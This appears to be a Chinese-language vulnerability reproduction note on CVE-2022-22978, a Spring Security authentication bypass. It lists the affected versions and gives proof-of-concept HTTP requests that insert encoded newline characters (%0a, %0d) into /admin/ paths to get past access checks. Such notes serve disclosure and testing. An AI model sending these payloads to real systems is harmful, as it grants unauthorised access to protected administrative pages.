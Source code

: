# 

# VMware Spring Security 身份认证绕过漏洞 CVE-2022-22978

## 漏洞描述

VMware Spring Security是美国威睿（VMware）公司的一套为基于Spring的应用程序提供说明性安全保护的安全框架。VMware Spring Security存在授权问题漏洞，该漏洞源于在应用程序中使用 RegexRequestMatcher 以及正则表达式的通配符（**.**）处理不受信任的输入时存在输入验证错误。

参考链接：

- https://xz.aliyun.com/t/11473

## 漏洞影响

```
Spring Security 5.5.x < 5.5.7 
Spring Security 5.6.x < 5.6.4 
Spring Security 其他低版本同样受影响
```

## 漏洞复现

正常访问/admin/下任何路由均会提示403。

在/admin/下任何路由中，插入`%0a`或者`%0d`,即可绕过验证访问页面。

poc：

```
/admin/%0a%0d
```

例如：

```
GET /admin/%0atest HTTP/1.1
```

```
GET /admin/%0dtest HTTP/1.1
```

```
GET /admin/%0a%0d%0dtest HTTP/1.1
```


